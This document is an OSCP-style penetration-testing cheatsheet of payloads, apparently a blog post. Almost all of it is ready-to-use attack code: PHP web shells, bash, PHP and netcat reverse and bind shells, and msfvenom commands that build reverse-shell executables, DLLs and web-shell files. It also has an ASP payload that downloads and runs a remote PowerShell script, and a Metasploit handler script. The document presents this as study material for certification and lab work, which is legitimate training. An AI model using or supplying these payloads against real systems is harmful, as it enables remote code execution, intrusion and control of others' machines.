 ```yaml
---
title: Payloads
author: linatl
category: "OSCP"
date: "2021-03-06 00:01"
tags: [OSCP, Cheatsheet]
layout: post
---
```


###### Webshells
```
Kali ready-to-go webshells
/usr/share/webshells/
/usr/share/seclists/Web-Shells/

PHP code for a simple web shell:
<?=`$_GET[0]`?>
<?php echo shell_exec($_GET['cmd']); ?>
<?php $cmd=$_GET['cmd']; system($cmd);?>

PHP to immediately pop a shell (linux-only)
<?php $sock=fsockopen("192.168.1.1",443); exec("/bin/sh -i <&3 >&3 2>&3");?>
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.1/443 0>&1'");?>
```

###### Pop a shell from command line
```
Bash
$ bash -i >& /dev/tcp/192.168.1.1/443 0>&1

Netcat
$ nc -e /bin/bash 192.168.1.1 443
```

###### Ready-to-go reverse shell payloads
```
Nishang
https://github.com/samratashok/nishang

PayloadsAllTheThings
https://github.com/swisskyrepo/PayloadsAllTheThings

Pentestmonkey Cheatsheet
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

Shell Spawning with NetSec
https://netsec.ws/?p=337
```

###### List msfvenom payload options
```
$ msfvenom -l payloads | grep php
$ msfvenom -l archs
$ msfvenom -l formats
```

###### Windows payloads for in a python script
```
Unstaged payload
$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -b "\x00" -f python -v shellcode -a x86 --platform windows > payload.txt

Staged payload
$ msfvenom -p windows/shell/reverse_tcp LHOST=192.168.1.1 LPORT=443 -b "\x00" -f python -v shellcode -a x86 --platform windows > payload.txt
```


###### Windows reverse shells
```
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f dll > msf.dll
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f exe > shell.exe
```

###### .elf reverse shell
```
x86
$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f elf > shell.elf
x64
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f elf > shell.elf
$ msfvenom -p cmd/unix/reverse_bash LHOST=192.168.1.1 LPORT=443 -f raw > shell.sh
```
s
###### Some more reverse shells
```
.php
$ msfvenom -p php/reverse_php LHOST=192.168.1.1 LPORT=443 -f raw > shell.php
.asp
$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f asp > shell.asp
.jsp
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f raw > shell.jsp
.war
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f war > shell.war
```

###### Simple ASP(X?) payload without importing additional libraries
```
<%
Set s = CreateObject("WScript.Shell")
Set cmd = s.Exec("cmd /c powershell -c IEX (New-Object Net.Webclient).downloadstring('http://10.10.10.10:80/InvokePowerShellTcp.ps1')")
o = cmd.StdOut.Readall()
Response.write(o)
>
```

###### Netcat reverse shell
```
Set up a listener
$ nc -nvlp 443

Connect to the listener (Windows)
$ nc -nv 192.168.1.1 443 -e cmd.exe
Connect to the listener (Linux)
$ nc -nv 192.168.1.1 443 -e /bin/bash
```

###### Netcat bind shell
```
Set up a listener (bind shell) (Windows target)
 $ nc -nvlp 10.10.10.10 443 -e cmd.exe
Set up a listener (bind shell) (Linux target)
 $ nc -nvlp 10.10.10.10 443 -e /bin/bash

Connect to the listener
$ nc -nv 192.168.1.1 443
```

###### Metasploit Multi Handler (.rc script)
```
use exploit/multi/handler
set PAYLOAD windows/shell_reverse_tcp
set LHOST 192.168.1.1
set LPORT 443
set ExitOnSession false
exploit -j -z
```
